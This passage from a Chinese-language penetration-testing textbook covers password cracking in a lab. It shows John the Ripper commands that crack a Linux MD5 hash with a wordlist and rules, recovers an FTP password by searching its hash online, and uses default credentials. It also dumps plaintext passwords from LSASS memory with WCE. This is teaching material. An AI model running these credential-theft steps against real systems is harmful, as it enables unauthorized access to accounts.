我们还可以使用 John the Ripper 来破解我们在第八章中，通过利用 Vsftpd 服务器后门提取的 Linux 密码哈希，正如示例 9-16 所示。

示例 9-16. 使用 John the Ripper 破解 Linux 哈希

```
root@kali# **cat linuxpasswords.txt**
georgia:$1$CNp3mty6$lRWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::
root@kali# **johnlinuxpasswords.txt --wordlist=passwordfile.txt**
Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 4x])
password         (georgia)
guesses: 1  time: 0:00:00:00 DONE (Sun Jan 11 05:05:31 2015)  c/s: 100
trying: password - Password123
```

用户*georgia*的密码是 MD5 哈希（我们可以从密码哈希开头的`$1$`判断）。MD5 无法在合理的时间内进行暴力破解。相反，我们可以使用 John the Ripper 的`--wordlist`选项，并利用词典进行破解。John the Ripper 成功破解密码的关键在于我们的词典中包含了正确的密码。

使用 John the Ripper 破解密码词典

当密码策略要求密码中包含数字和/或符号时，许多用户只是将它们添加到字典单词的末尾。通过使用 John the Ripper 的规则功能，我们可以捕捉到这种以及其他常见的变种，这些变种可能会绕过简单的字典列表。打开 John the Ripper 配置文件*/etc/john/john.conf*，在编辑器中查找*List.Rules:Wordlist*。在这个标题下，你可以为字典列表添加变形规则。例如，规则`$[0-9]$[0-9]$[0-9]`会在字典列表中的每个单词末尾添加三个数字。你可以通过在命令行使用`--rules`标志来启用 John the Ripper 中的规则。关于编写自定义规则的更多信息，请访问*[`www.openwall.com/john/doc/RULES.shtml`](http://www.openwall.com/john/doc/RULES.shtml)*。

### 破解配置文件密码

最后，让我们尝试破解我们在通过 Zervit 0.4 文件包含漏洞下载的 FileZilla FTP 服务器配置文件中找到的 MD5 哈希密码。正如你所看到的，有时候我们甚至不需要破解密码哈希。例如，尝试将用户*georgia*的哈希值*5f4dcc3b5aa765d61d8327deb882cf99*输入到搜索引擎中。前几条结果确认*georgia*的密码是*password*。此外，搜索还告诉我们，当安装 FileZilla FTP 服务器时，账户*newuser*会被创建，密码为*wampp*。

现在尝试使用这些凭证登录 Windows XP 目标的 FTP 服务器。果然，登录成功了。该系统的管理员忘记更改内置 FTP 账户的默认密码。如果我们无法如此轻松地恢复明文密码，我们可以再次使用 John the Ripper 配合字典列表，如前所述。

### 彩虹表

与其使用字典列表、对每个条目应用相关算法进行哈希，然后将结果哈希与待破解的值进行比较，我们可以通过预先哈希字典列表来显著加速这个过程。当然，这需要一定的存储空间——随着哈希列表变长，所需存储空间也会增大，当我们尝试存储所有可能的密码哈希值进行暴力破解时，这个空间将接近无限。

一组预计算的哈希值被称为*彩虹表*。彩虹表通常包含给定算法所有可能的哈希条目，直到某个特定长度，并且字符集是有限的。例如，你可能有一个针对 MD5 哈希的彩虹表，包含所有由小写字母和数字组成、长度介于 1 到 9 之间的条目。这个表大约为 80GB——在今天存储价格的情况下不算太糟糕，但请记住，这仅仅是 MD5 可能的密钥空间中的一小部分。

鉴于其有限的密钥空间（前面讨论过），LM 哈希看起来是使用彩虹表的理想候选。完整的 LM 哈希彩虹表大约为 32GB。

你可以从 *[`project-rainbowcrack.com/table.htm`](http://project-rainbowcrack.com/table.htm)* 下载预生成的哈希集。Kali 中的工具 Rcrack 可以用来从彩虹表中筛选出正确的明文密码。

### 在线密码破解服务

目前在 IT 领域流行的做法是将数据迁移到云端，密码破解也不例外。通过利用多台高性能机器，你可以获得比仅在笔记本虚拟机上操作更快、更全面的结果。当然，你可以在云端设置自己的高性能机器，创建自己的字典等，但也有一些在线服务可以为你处理这些工作，前提是你支付费用。例如，* [`www.cloudcracker.com/`](https://www.cloudcracker.com/) * 可以破解 NTLM Windows 哈希、Linux 的 SHA-512、无线网络的 WPA2 握手等。你只需要上传密码哈希文件，破解程序会完成其余的工作。

## 使用 Windows 凭证编辑器从内存中提取明文密码

如果我们可以直接获取明文密码，为什么还要去破解密码哈希呢？如果我们能够访问 Windows 系统，在某些情况下，我们可以直接从内存中提取明文密码。具有此功能的一个工具是 Windows 凭证编辑器（WCE）。我们可以将这个工具上传到被利用的目标系统，它会从负责强制执行系统安全策略的本地安全机构子系统服务（LSASS）进程中提取明文密码。你可以从 *[`www.ampliasecurity.com/research/wcefaq.html`](http://www.ampliasecurity.com/research/wcefaq.html)* 下载 WCE 的最新版本。运行 WCE 的示例见示例 9-17。

示例 9-17. 运行 WCE

```
C:\>**wce.exe -w**
wce.exe -w
WCE v1.42beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa
(hernan@ampliasecurity.com)
Use -h for help.

georgia\BOOKXP:password
```

在这里，WCE 找到了用户*georgia*的明文密码。这个攻击的缺点是，它需要有一个已登录的用户，才能在内存中存储密码。即使你能够通过这种方法获取一个或两个明文密码，仍然值得提取并尝试破解你能访问的任何密码哈希。

## 总结

反向破解密码哈希是一个令人兴奋的领域，随着硬件速度的提升，破解更强的哈希也变得越来越快速。使用多个 CPU，甚至显卡上的图形处理单元（GPU），密码破解工具可以非常快速地尝试大量哈希。我们的虚拟机处理能力有限，但即便是你普通的现代笔记本电脑，也比几年前用于密码破解的机器快得多。如今，密码破解的前沿技术是利用云端，并借助多个顶级配置的云服务器进行破解。你甚至可以找到一些基于云的密码破解服务。

如本章所示，利用在第八章中收集到的成功攻击案例信息，我们已成功逆向密码哈希，恢复出一些服务和系统本身的明文密码。在成功入侵系统后，让我们来看看一些先进的攻击方法，这些方法可以在我们监听网络时找不到任何漏洞的情况下提供帮助。毕竟，我们还有一台 Windows 7 机器可以利用。
